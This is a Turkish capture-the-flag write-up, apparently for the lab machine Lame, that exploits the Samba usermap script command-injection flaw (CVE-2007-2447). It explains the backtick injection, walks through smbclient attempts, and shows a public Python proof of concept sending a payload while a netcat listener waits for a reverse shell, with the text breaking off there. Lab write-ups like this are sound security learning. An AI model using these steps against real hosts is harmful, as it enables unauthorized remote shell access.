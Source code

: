 ```


```
Yani temel olarak Linux'ta  ` `  ifadeleri, komutu çalıştırıp çıktısını yerine koymak için kullanılır, tıpkı `$()` gibi. Görünüşe göre Samba, bunu kullanıcı adı içinde yapmaya izin veriyor. Metasploit ise `nohup` (komutu mevcut bağlamın dışında çalıştıran bir araç) kullanarak ardından bir payload çalıştırıyor.
```


#### smbclient Fails

Bunu smbclient ile deneyeceğim. 443'te bir nc listener başlatacağım. Paylaşıma smbclient //10.10.10.3/tmp kullanarak bağlanabiliyorum. Önce bir kullanıcı belirtmeyi denedim:

![Pasted image 20250205204058.png](/img/user/resimler/Pasted%20image%2020250205204058.png)

![Pasted image 20250205204359.png](/img/user/resimler/Pasted%20image%2020250205204359.png)

listener'la bir bağlantı kurdum:

![Pasted image 20250205204407.png](/img/user/resimler/Pasted%20image%2020250205204407.png)

```
Ne yazık ki, bu benim local kutumdan. Bash'ım bağlantıyı göndermeden önce    ` ` komutunu çalıştırıyor. “ ile ' yi değiştireceğim:
```

Bazı nedenlerden dolayı, komutun başlangıcı büyük harfle yazılıyor ve bu da yürütmeyi bozuyor.

![Pasted image 20250205204531.png](/img/user/resimler/Pasted%20image%2020250205204531.png)


#### smbclient success

Görünüşe göre smbclient üzerinden giriş yapmanın başka bir yolu daha var ve bu, logon komutuyla bağlandıktan sonra kullanıcıları değiştirmek için kullanılıyor (şifre sorulduğunda sadece enter tuşuna basıyorum):

![Pasted image 20250205204711.png](/img/user/resimler/Pasted%20image%2020250205204711.png)

![Pasted image 20250205204728.png](/img/user/resimler/Pasted%20image%2020250205204728.png)

### Python Script

Biraz Google araması beni bu açık için bir Python POC içeren bu GitHub'a yönlendirdi. “ Install” talimatlarını izleyerek ve ardından scripti çalıştırarak kolayca bir shell elde edebilirim:

![Pasted image 20250205204847.png](/img/user/resimler/Pasted%20image%2020250205204847.png)

```
root@kali# python usermap_script.py 10.10.10.3 139 10.10.16.9 443
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

Elbette, Lame'den bir shell aldım:

```
root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
